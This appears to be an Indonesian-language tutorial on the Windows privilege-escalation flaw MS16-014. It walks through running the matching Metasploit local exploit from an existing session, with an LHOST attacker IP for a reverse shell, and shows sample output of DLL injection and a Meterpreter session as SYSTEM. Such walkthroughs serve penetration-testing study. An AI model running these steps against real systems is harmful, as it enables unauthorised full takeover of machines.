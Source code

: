 # MS16-014

## A. Apa itu MS16-014?

[MS16-014](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014) adalah kerentanan Local Privilege Escalation (LPE) pada Windows Kernel, khususnya terkait dengan manajemen Windows Task Scheduler dan komponen internal `win32k.sys`.

Kerentanan ini memungkinkan pengguna lokal dengan hak terbatas untuk menjalankan kode arbitrer di level kernel, dan mendapatkan hak akses `SYSTEM`. Ini dilakukan dengan cara mengeksploitasi kesalahan dalam validasi objek kernel dan manipulasi struktur internal.

## B. Detail Teknis:
- CVE ID: `CVE-2016-0040`
- Buletin Microsoft: `MS16-014`
- Tanggal Rilis: `9 Februari 2016`
- Tipe: Local Privilege Escalation (LPE)
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS16-014`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS16-014:

   ```
   msf6 > use exploit/windows/local/ms16_014_wmi_recv_notif
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] OS Version: Windows 7 Service Pack 1
   [*] Reflectively injecting the exploit DLL and running it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1276 launched.
   [*] Reflectively injecting the DLL into 1276...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 20 opened (192.168.1.42:4444 -> 192.168.1.50:49179) at 2025-05-14 17:34:54 +0700

   meterpreter > 
   ```
   
   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
